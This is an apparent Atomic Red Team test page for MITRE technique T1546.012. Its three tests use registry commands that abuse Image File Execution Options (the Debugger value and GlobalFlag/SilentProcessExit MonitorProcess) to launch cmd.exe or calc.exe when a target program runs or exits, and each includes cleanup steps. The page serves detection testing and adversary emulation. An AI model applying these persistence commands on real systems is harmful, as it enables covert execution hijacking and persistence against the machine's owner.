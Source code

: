 ```yaml
---
tags: [T1546_012, atomic_test]
filename: "[[T1546.012 - Event Triggered Execution- Image File Execution Options Injection]]"
---
```

# T1546.012 - Event Triggered Execution: Image File Execution Options Injection

## Atomic Test #1 - IFEO Add Debugger
Leverage Global Flags Settings

**Supported Platforms:** Windows


**auto_generated_guid:** fdda2626-5234-4c90-b163-60849a24c0b8





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target_binary | Binary To Attach To | path | calc.exe|
| payload_binary | Binary To Execute | path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /d "#{payload_binary}"
```

#### Cleanup Commands:
```cmd
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - IFEO Global Flags
Leverage Global Flags Settings

**Supported Platforms:** Windows


**auto_generated_guid:** 46b1f278-c8ee-4aa5-acce-65e77b11f3c1





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target_binary | Binary To Attach To | path | notepad.exe|
| payload_binary | Binary To Execute | path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /t REG_DWORD /d 512
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /t REG_DWORD /d 1
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /d "#{payload_binary}"
```

#### Cleanup Commands:
```cmd
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #3 - GlobalFlags in Image File Execution Options
The following Atomic Test will create a GlobalFlag key under Image File Execution Options, also a SilentProcessExit Key with ReportingMode and MonitorProcess values. This test is similar to a recent CanaryToken that will generate an EventCode 3000 in the Application log when a command, whoami.exe for example, is executed.
Upon running Whoami.exe, a command shell will spawn and start calc.exe based on the MonitorProcess value. 
Upon successful execution, powershell will modify the registry and spawn calc.exe. An event 3000 will generate in the Application log.

**Supported Platforms:** Windows


**auto_generated_guid:** 13117939-c9b2-4a43-999e-0a543df92f0d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| process | Process to monitor | string | whoami.exe|
| cmd_to_run | Command to execute | string | cmd.exe /c calc.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$Name = "GlobalFlag"
$Value = "512"
$registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{process}"
New-Item -Path $registryPath -Force
New-ItemProperty -Path $registryPath -Name $Name -Value $Value -PropertyType DWord -Force
$Name = "ReportingMode"
$Value = "1"
$SilentProcessExit = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{process}"
New-Item -Path $SilentProcessExit -Force
New-ItemProperty -Path $SilentProcessExit -Name $Name -Value $Value -PropertyType DWord -Force 

$Name = "MonitorProcess"
$Value = "#{cmd_to_run}"
New-ItemProperty -Path $SilentProcessExit -Name $Name -Value $Value -PropertyType String -Force
Start-Process whoami.exe
```

#### Cleanup Commands:
```powershell
$SilentProcessExit = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{process}" 
Remove-Item $SilentProcessExit -force
$registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{process}"
Remove-Item $registryPath -force
```





<br/>
